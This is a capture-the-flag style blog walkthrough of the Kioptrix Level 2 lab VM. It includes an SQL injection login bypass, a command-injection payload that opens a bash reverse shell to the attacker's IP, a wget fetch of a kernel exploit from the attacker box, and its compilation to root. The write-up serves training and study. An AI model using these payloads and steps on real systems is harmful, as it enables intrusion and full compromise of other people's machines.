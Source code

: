 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 2"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp2/
tags: vulnhub
---
```


> “Never underestimate the determination of a kid who is time-rich and cash-poor.” -- Cory Doctorow, Little Brother

![][1]

You can download this VM at [](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/). Let's start pwning !

### 0x01 Reconnaissance

<details>
  <summary>
    get VM IP address
  </summary>
<pre>

<b>imd@kali:~$</b> sudo arp-scan 192.168.222.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.
192.168.222.128 00:0c:29:bb:86:18       VMware, Inc.
192.168.222.254 00:50:56:f1:d9:90       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.000 seconds (128.00 hosts/sec). 4 responded

</pre>
</details>

Target IP: 192.168.222.128

### 0x02 Scanning

<details>
  <summary>
    nmap full scan
  </summary>
<pre>

<b>imd@kali:~$</b> nmap -Pn -n -A -p- 192.168.222.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 10:08 EST
Nmap scan report for 192.168.222.128
Host is up (0.0096s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2020-12-16T13:00:04+00:00; -2h08m58s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
854/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)

Host script results:
|_clock-skew: -2h08m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

</pre>
</details>

Found 7 open ports: 22, 80, 111, 443, 631, 854, 3306. Server is running Apache httpd 2.0.52 on port 80/tcp, MySQL on port 3306/tcp, CUPS/1.1 on port 631/tcp. Port 80  is always an interesting port, let's check it on a web browser.

### 0x03 Exploitation

![][2]

It's a web html/php based login form. Since we know there's a MySQL server running on the backend, I tried basic SQL injection methods to bypass the login, and `admin' or 1=1#` worked. The result of the SQL query looks like this: `SELECT * FROM users WHERE username='admin' or 1=1#' AND password=''` and the pound/sharp/hashtag whatever you call it made the next parameters commented out.

![][3]

As we can see here, there's a ping command prompt which might be vulnerable to a [Command Injection](https://www.owasp.org/index.php/Command_Injection). 

![][4]

We used the semicolon to run any shell command after the first command executed. If this is the case, we can run a reverse shell too. There are many available cheat sheets on the web and one of the most known website is pentestmonkey. for example, a bash reverse shell. I tried to inject another command `127.0.0.1 ; whoami` and found out it was indeed vulnerable to a command injection.

![][5]

I've explored a bit to see what other details I could extract, then I attempted to spawn a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) with a bash reverse shell command `; bash -i >& /dev/tcp/192.168.222.129/9001 0>&1` and before doing this, you will need to run netcat first to listen to incoming connections on our machine. `nc -lvp 9001`

<details>
  <summary>low-priv shell access</summary>
<pre>

<b>imd@kali:~$</b> nc -lvp 9001
listening on [any] 9001 ...
192.168.222.128: inverse host lookup failed: Unknown host
connect to [192.168.222.129] from (UNKNOWN) [192.168.222.128] 32771
bash: no job control in this shell
<b>bash-3.00$</b> whoami
apache
<b>bash-3.00$</b> uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
<b>bash-3.00$</b> ls
index.php
pingit.php
<b>bash-3.00$</b> lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$ ls
index.php
pingit.php
<b>bash-3.00$</b> cat index.php

</pre>
</details>

Interesting. let's see what's inside the source code of index.php

<details>
  <summary>index.php source code</summary>

{% highlight php %}
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
<html>
<body>
<?php
if ($row['id']==""){
?>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>
<?php
	} //END of login form
?>

<!-- Start of HTML when logged in as Administator -->
<?php
	if ($row['id']==1){
?>
	<form name="ping" action="pingit.php" method="post" target="_blank">
		<table width='600' border='1'>
		<tr valign='middle'>
			<td colspan='2' align='center'>
			<b>Welcome to the Basic Administrative Web Console<br></b>
			</td>
		</tr>
		<tr valign='middle'>
			<td align='center'>
				Ping a Machine on the Network:
			</td>
				<td align='center'>
				<input type="text" name="ip" size="30">
				<input type="submit" value="submit" name="submit">
			</td>
			</td>
		</tr>
	</table>
	</form>


<?php
}
?>
</body>
</html>
{% endhighlight %}
</details>

We immediately saw credentials on the source code. and we'll see if we can access MySQL.

<details>
  <summary>MySQL login attempt</summary>
<pre>

<b>bash-3.00$</b> mysql -u john -p
Enter password: hiroshima
ls
ls
ls
^C

</pre>
</details>

Nothing shows up. What could be the problem? the system is not allowing us to connect. It means that the password we're using is possibly already an old password. That's why it is not giving us a shell output. At least we tried. Let's move on and look for something else.

<details>
  <summary>sudo and suid permissions</summary>
<pre>

<b>bash-3.00$</b> sudo -l
Password:

<b>bash-3.00$</b> 
<b>bash-3.00$</b> find / -perm -u=s -type f 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su

</pre>
</details>

Looking at the files with suid bit, we don't know which one is vulnerable and which one is not. In that case, we need to check out the priv esc suid on [gtfobins](https://gtfobins.github.io/). If something is here, that means it is vulnerable. We found none after checking all the files.

<details>
  <summary>crontabs</summary>
<pre>

<b>bash-3.00$</b> cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

\# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly

<b>bash-3.00$</b> crontab -l
no crontab for apache

</pre>
</details>

How bout crontabs? Yep, we found none. There is no scheduled crontab for apache user. So what's next? We know we got a shell but with a low privilege. We found out this is an apache shell. We know this is running CentOS. So how about we try to find a kernel exploit to linux 2.6.9.EL. A quick google search of "<mark>linux 2.6.9-55.EL centos exploit</mark>" leads us to this first link: https://www.exploit-db.com/exploits/9542 or searching from searchsploit command on your machine.

<details>
  <summary>transfer and download exploit</summary>
<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit centos 4.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Co | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS  | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfute | linux/local/35370.c
------------------------------------------------- ---------------------------------
Shellcodes: No Results

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix2/9542.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.222.128 - - [23/Dec/2020 13:19:10] "GET /9542.c HTTP/1.0" 200 -

<b>bash-3.00$</b> cd /tmp
<b>bash-3.00$</b> wget http://192.168.222.129/9542.c
--11:24:27--  http://192.168.222.129/9542.c
           => `9542.c'
Connecting to 192.168.222.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

  0K ..                                                    100%    5.04 MB/s

11:24:27 (5.04 MB/s) - `9542.c' saved [2643/2643]

</pre>
</details>

In order to download the exploit from attacker box, we need to host the exploit and we did this using python2. Download the exploit from the victim's machine in /tmp directory.

### 0x04 Gaining root access

<details>
  <summary>compile and gain root access</summary>
<pre>

<b>bash-3.00$</b> ls
9542.c
<b>bash-3.00$</b> gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
<b>bash-3.00$</b> ls
9542.c
exploit
<b>bash-3.00$</b> ./exploit
sh: no job control in this shell
<b>sh-3.00#</b> whoami
root
<b>sh-3.00#</b> id
uid=0(root) gid=0(root) groups=48(apache)
<b>sh-3.00#</b> hostname
kioptrix.level2

</pre>
</details>

We used gcc to compile the c file, named the compiled file 'exploit' and ran it and now we are root! Congratulations..K1optr1x 2 -- rooted!



[1]: https://i.imgur.com/lBO1ezp.png
[2]: https://i.imgur.com/JWKV9N4.png
[3]: https://i.imgur.com/Vl7waEv.png
[4]: https://i.imgur.com/lrVIqAN.png
[5]: https://i.imgur.com/XokJzFd.png


